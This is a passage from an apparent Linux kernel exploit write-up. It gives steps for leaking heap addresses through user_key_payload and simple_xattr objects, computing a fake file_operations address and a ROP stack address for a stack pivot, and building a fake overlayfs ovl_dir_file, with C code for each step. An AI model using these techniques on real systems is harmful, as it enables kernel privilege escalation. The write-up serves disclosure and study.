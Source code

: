 ```c
    perror("setxattr");
    return 0;
  }

  // Leak heap again from data saved in step 4
  char leak_buffer[USER_KEY_PAYLOAD_BUFFER_MAX];
  user_key_payload_read(r->key_to_read, leak_buffer, r->size_to_read);
  void *scan = skip_user_key_payload(leak_buffer, r->live_on_heap);

  // Read the `list.prev` value to get the address of `struct simple_xattr` that the exploit allocated in this step.
  struct simple_xattr *xattr = scan + r->offsets_to_leak[0];
  return xattr->list.prev;
}
```

- Bacause the exploit will eventually perform stack pivot to this heap, I pick kmalloc-8192 so the exploit can have a generous stack size.

## Step6: Calculate fops address and rop stack address
- Calculate fake fops address [exploit.c#L914](./exploit.c#L914):

```c
uint64_t fake_fops_addr = simple_xattr_kmalloc_8192_addr + SIMPLE_XATTR_STRUCT_SIZE - STRUCT_FILE_OPERATIONS_LLSEEK_OFFSET;
```
- [exploit.c#L27](./exploit.c#L27):

```c
#define SIMPLE_XATTR_STRUCT_SIZE 32
```
- [exploit.c#L39](./exploit.c#L39):

```c
#define STRUCT_FILE_OPERATIONS_LLSEEK_OFFSET 0x8
```

- Calculate rop stack address [exploit.c#L916](./exploit.c#L916):

```c
uint64_t rop_stack = simple_xattr_kmalloc_8192_addr + SIMPLE_XATTR_STRUCT_SIZE + 2048;
```

## Step7: Build fake `struct ovl_dir_file`

- Kernel code:

```c
static loff_t ovl_dir_llseek(struct file *file, loff_t offset, int origin)
{
	loff_t res;
	struct ovl_dir_file *od = file->private_data;

	inode_lock(file_inode(file));
	if (!file->f_pos)
		ovl_dir_reset(file);

	if (od->is_real) {
		res = vfs_llseek(od->realfile, offset, origin);
		file->f_pos = od->realfile->f_pos;
	} else {
		res = -EINVAL;

		switch (origin) {
		case SEEK_CUR:
			offset += file->f_pos;
			break;
```